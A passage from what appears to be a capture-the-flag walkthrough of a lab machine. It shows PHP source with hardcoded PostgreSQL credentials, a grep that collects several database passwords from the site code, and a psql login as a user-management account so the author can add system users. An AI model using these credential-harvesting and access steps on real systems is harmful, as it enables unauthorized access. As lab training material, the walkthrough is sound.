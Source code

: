 ```

...[snip]...
if($action==='adduser'){                                                                                   
        $username=$_POST['username'];                                             
        $passw=generateRandomString();                       
        $phash=crypt($passw);                   
        $dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixusrmgr password=dheu%7wjx8B&");
        $result = pg_prepare($dbconn, "q1", "insert into passwd_table (username, passwd, gid, homedir) values ($1, $2, 1001, '/var/jail/home')");                                                                          
        $result = pg_execute($dbconn, "q1", array($username, $phash));
        echo "Provide this credentials to the user:<br><br>";
        echo "<b>$username : $passw</b><br><br><a href=/?page=users>Continue</a>";
}    
...[snip]...

```

That code contains the username and password of a postgres user that can add users to this system. That will be useful.

#### Postgresql

Postgres is a bit different if you are used to mysql or mssql. [This link](https://gist.github.com/Kartones/dd3ff5ec5ea238d4c546) is a great cheat sheet of commands to use (it took me a while to find `\q` to exit).

Since I can see the php code adding users to this database, this must be where access for these temporary users is controlled, as opposed to the typical `/etc/passwd` and `/etc/shadow`.

There are multiple sets of creds for the db in this site code:

```

www-data@redcross:~/html$ grep -r pg_connect .
./admin/pages/firewall.php:     $dbconn = pg_connect("host=127.0.0.1 dbname=redcross user=www password=aXwrtUO9_aa&");
./admin/pages/users.php:        $dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixnss password=fios@ew023xnw");
./admin/pages/actions.php:      $dbconn = pg_connect("host=127.0.0.1 dbname=redcross user=www password=aXwrtUO9_aa&");
./admin/pages/actions.php:      $dbconn = pg_connect("host=127.0.0.1 dbname=redcross user=www password=aXwrtUO9_aa&");
./admin/pages/actions.php:      $dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixusrmgr password=dheu%7wjx8B&");
./admin/pages/actions.php:      $dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixusrmgr password=dheu%7wjx8B&");

```

I’m interested in unixusrmgr because it can add users. I can connect like this:

```

www-data@redcross:/$ psql -h 127.0.0.1 -U unixusrmgr -p 5432 -d unix
Password for user unixusrmgr: 
psql (9.6.7)
SSL connection (protocol: TLSv1.2, cipher: ECDHE-RSA-AES256-GCM-SHA384, bits: 256, compression: off)
Type "help" for help.

unix=>

```
